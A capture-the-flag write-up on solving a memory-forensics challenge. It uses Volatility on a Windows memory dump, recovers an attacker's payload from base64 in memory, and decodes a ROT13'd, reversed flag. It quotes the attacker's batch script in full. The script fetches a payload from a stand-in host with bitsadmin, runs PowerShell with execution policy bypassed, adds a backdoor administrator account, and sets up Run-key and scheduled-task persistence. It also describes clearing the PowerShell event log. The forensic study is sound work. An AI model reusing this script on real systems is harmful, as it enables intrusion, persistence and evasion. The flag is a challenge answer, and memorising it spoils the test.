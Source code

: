 # G1bs0n - Misc - 300 points

> Agent Gill called, we have until tomorrow at 15:00 UTC to fix some virus problem.
>
> Solves: 23
>
> Download: http://dl.ctf.rocks/G1bs0n.tar.gz
>
> Author: d3vnu11

We are given a memory dump of a system, and we need to "fix" the virus problem. Image seems to be taken via VirtualBox. We downloaded [Volatility](http://www.volatilityfoundation.org/), and started to study the image, first using the `imageinfo` command to identify the image profile:

    > volatility_2.6_win64_standalone.exe -f G1bs0n imageinfo
    Volatility Foundation Volatility Framework 2.6
    INFO    : volatility.debug    : Determining profile based on KDBG search...
              Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                         AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                         AS Layer2 : VMWareAddressSpace (Unnamed AS)
                         AS Layer3 : FileAddressSpace (C:\G1bs0n\G1bs0n)
                          PAE type : No PAE
                               DTB : 0x187000L
                              KDBG : 0xf8000284f0a0L
              Number of Processors : 1
         Image Type (Service Pack) : 1
                    KPCR for CPU 0 : 0xfffff80002850d00L
                 KUSER_SHARED_DATA : 0xfffff78000000000L
               Image date and time : 2017-09-03 10:33:21 UTC+0000
         Image local date and time : 2017-09-03 12:33:21 +0200
         
So let's use the Win7SP1x64 profile. We tried various commands without finding much of interest, but `psxview` showed that some cmd and powershell processes had recently ran.

    > volatility_2.6_win64_standalone.exe -f G1bs0n --profile=Win7SP1x64 psxview
    Volatility Foundation Volatility Framework 2.6
    Offset(P)          Name                    PID pslist psscan thrdproc pspcid csrss session deskthrd ExitTime
    ------------------ -------------------- ------ ------ ------ -------- ------ ----- ------- -------- --------
    0x000000003e340300 lsm.exe                 496 True   True   True     True   True  True    True
    0x0000000024bb57c0 winlogon.exe           1244 True   True   True     True   True  True    True
    0x000000003e10e740 svchost.exe             292 True   True   True     True   True  True    True
    0x000000003efe3890 winlogon.exe            420 True   True   True     True   True  True    False
    0x000000003eb66b30 sppsvc.exe             2552 True   True   True     True   True  True    True
    0x000000003e107b30 spoolsv.exe             240 True   True   True     True   True  True    True
    0x000000003ebaf770 svchost.exe            2596 True   True   True     True   True  True    False
    0x000000003de04790 rdpclip.exe            2844 True   True   True     True   True  True    True
    0x000000003f3c9b30 dwm.exe                1704 True   True   True     True   True  True    True
    0x000000003e298910 wininit.exe             384 True   True   True     True   True  True    True
    0x000000003e3be130 svchost.exe             596 True   True   True     True   True  True    True
    0x000000003e3e9b30 svchost.exe             664 True   True   True     True   True  True    True
    0x000000003e0443c0 LogonUI.exe             752 True   True   True     True   True  True    False
    0x000000003f6cc3e0 taskeng.exe            2612 True   True   True     True   True  True    True
    0x000000003e031b30 svchost.exe             764 True   True   True     True   True  True    True
    0x000000003f783060 iexplore.exe           2852 True   True   True     True   True  True    True
    0x000000003ed40060 iexplore.exe           2512 True   True   True     True   True  True    True
    0x000000003ea52670 svchost.exe            2128 True   True   True     True   True  True    True
    0x000000003e2b8b30 lsass.exe               488 True   True   True     True   True  True    False
    0x000000003f621060 taskhost.exe           2488 True   True   True     True   True  True    True
    0x000000003e1eb310 svchost.exe            1044 True   True   True     True   True  True    True
    0x000000003e05bb30 svchost.exe             836 True   True   True     True   True  True    True
    0x000000003fc5fb30 explorer.exe            848 True   True   True     True   True  True    True
    0x000000003e33ba70 services.exe            480 True   True   True     True   True  True    False
    0x000000003ef9c290 SearchIndexer.         1724 True   True   True     True   True  True    True
    0x000000003e060b30 svchost.exe             808 True   True   True     True   True  True    True
    0x000000003e088b30 svchost.exe             968 True   True   True     True   True  True    True
    0x000000003ffc1b30 csrss.exe               392 True   True   True     True   False True    False
    0x000000003e257060 csrss.exe               348 True   True   True     True   False True    True
    0x000000003ffbdae0 System                    4 True   True   True     True   False False   False
    0x000000003f1d8300 smss.exe                260 True   True   True     True   False False   False
    0x000000003f777b30 csrss.exe              1248 True   True   True     True   False True    True
    0x000000003ea26b30 regedit.exe            2812 False  True   False    False  False False   False    2017-09-03 10:28:17 UTC+0000
    0x000000003ed6c060 cmd.exe                 796 False  True   False    False  False False   False    2017-09-03 10:33:01 UTC+0000
    0x000000003ea42b30 SearchProtocol         2060 False  True   False    False  False False   False    2017-08-30 07:45:22 UTC+0000
    0x000000003f6d8b30 taskhost.exe           1772 False  True   False    False  False False   False    2017-09-03 10:27:19 UTC+0000
    0x000000003dd8fb30 powershell.exe         1596 False  True   False    False  False False   False    2017-09-03 10:33:01 UTC+0000
    0x000000003ed36060 net.exe                2792 False  True   False    False  False False   False    2017-09-03 10:28:12 UTC+0000
    0x000000003f7d1b30 cmd.exe                2064 False  True   False    False  False False   False    2017-09-03 10:28:17 UTC+0000
    0x000000003f7041e0 net.exe                1088 False  True   False    False  False False   False    2017-09-03 10:28:17 UTC+0000
    
Frustrated with not finding anything, we started to just browse the file with a hex editor, and stumbled upon the name `acidburn`. Suspicious! We searched for `acidburn` in the file, and quickly found an...interesting snippet of code:

    REM "It's cool, I'm just looking."
    mkdir C:\T3MP
    cd C:\T3MP
    bitsadmin  /transfer Nothing /download  /priority normal http://l0calh0st.com/gibson.jpg  C:\T3MP\gibson.jpg
    certutil -decode gibson.jpg gibson.zip >nul
    echo Get^-ChildItem ^-Path "C:\T3MP" ^-Filter ^*.zip ^| Expand-Archive ^-DestinationPath "C:\T3MP" ^-Force > C:\T3MP\z.ps1
    cmd /c "powershell -NOP -EP Bypass C:\T3MP\z.ps1"
    net user acidburn
    IF %ERRORLEVEL% NEQ 0 (
        echo LOL, I win
    ) ELSE (
    	REM Remove LOL
    	net user acidburn /active:no
        net localgroup administrators acidburn /del
    )
    REM Hack The Planet
    net user /add zerocool
    net user zerocool *
    net localgroup administrators zerocool /add
    REM add Run key
    cmd /c "regedit /s c:\T3MP\run.reg"
    del run.reg
    del gibson.zip
    del z.zip
    schtasks /create /sc minute /mo 5 /tn "NothingSpecial" /tr C:\T3MP\run.bat /RL HIGHEST
    REM "If I win, you become my slave."

Sadly, `l0calh0st.com` doesn't work, so we can't get the original file from the server. But is there another way to locate it? We see that the hacker uses `certutil` to base64 decode the file into a ZIP file. We know a ZIP file always starts with `PK\x03\x04`, so we try searching the memory dump for that string. We find it multiple times, but sadly nothing that seems related to the hacker script.

There is another option, though. `PK\x03` is `UEsD` in base64, so we search for it - and get a match! We base64 decode the full string we found, and get the file used, `gibson.zip`. It contains three files, `run.bat` which is a single line script that spawns Powershell, `run.ps1` which displays an ASCII art logo then clears the Powershell event log, and `run.reg` which adds some registry keys for persistence and backdooring.

And there, at the bottom of the registry file:

    [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Security]
    "Special"="}JGS_3G4X_GH0_3Z"

Well, that certainly *looks* like a flag, or possibly part of it. But what does it mean? Just submitting it doesn't work. The `}` at the end might mean it's reversed, but `Z3_0HG_X4G3_SGJ}` doesn't make much more sense either. Maybe it's a key to some program that's elsewhere in memory?

After a while of searching without results for something that uses the "Special" value, we get a wild idea and try [ROT13](https://en.wikipedia.org/wiki/ROT13) on the special string - and get `M3_0UT_K4T3_FTW}`!! That *definitely* looks like a flag, but only part of it. After some thinking, we realize that we need to search for `SECT{` in memory, but yet again reversed and ROT13'd, so we search for `{GPRF`, and quickly find the string `_X43EUC_3H64YC{GPRF`.

We combine the two strings, reverse them, ROT13 them, and we finally have the full flag: `SECT{PL46U3_PHR34K_M3_0UT_K4T3_FTW}`

